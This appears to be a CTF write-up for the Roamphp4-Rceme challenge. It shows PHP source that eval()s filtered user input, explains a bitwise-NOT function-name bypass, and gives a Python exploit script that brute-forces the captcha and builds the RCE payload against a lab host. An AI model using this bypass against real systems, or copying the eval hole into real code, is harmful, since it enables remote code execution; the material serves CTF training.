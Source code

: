 #### [极客大挑战 2020]Roamphp4-Rceme

```php
<?php
error_reporting(0);
session_start();
if(!isset($_SESSION['code'])){
    $_SESSION['code'] = substr(md5(mt_rand().sha1(mt_rand)),0,5);
}

if(isset($_POST['cmd']) and isset($_POST['code'])){

    if(substr(md5($_POST['code']),0,5) !== $_SESSION['code']){
        die('<script>alert(\'Captcha error~\');history.back()</script>');
    }
    $_SESSION['code'] = substr(md5(mt_rand().sha1(mt_rand)),0,5);
    $code = $_POST['cmd'];
    if(strlen($code) > 70 or preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/ixm',$code)){
        die('<script>alert(\'Longlone not like you~\');history.back()</script>');
    }else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
        @eval($code);
        die();
    }
}
?>
```

`~`没有被过滤,以 `[~已取反函数名的URLencode][!%ff]()` 的形式组成函数

```python
import requests
import hashlib

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}


def getcode(md5code):
    for i in range(10000000):
        if hashlib.md5(str(i).encode('utf-8')).hexdigest()[0:5] == md5code:
            return str(i)


def urlencode(s):
    url = ""
    for i in s:
        url += "%" + str(hex(0xff - ord(i)))[2:].upper()
    return "[~" + url + "][!%FF]("


shell = input().strip(")")
shell = shell.strip("(")
shell = shell.split("(")
cmd = ""
for i in shell:
    cmd += urlencode(i)
cmd += ")" * len(shell)
cmd += ";"
print(cmd)

url = 'http://4a811242-6a11-4301-aa07-5c3288bf2b5a.node3.buuoj.cn/'
r = requests.get(url=url)
md5code = r.text[r.text.index("substr(md5($code),0,5)==") + len("substr(md5($code),0,5)=="):r.text.index("substr(md5($code),0,5)==") + len("substr(md5($code),0,5)==") + 5]
code = getcode(md5code)
```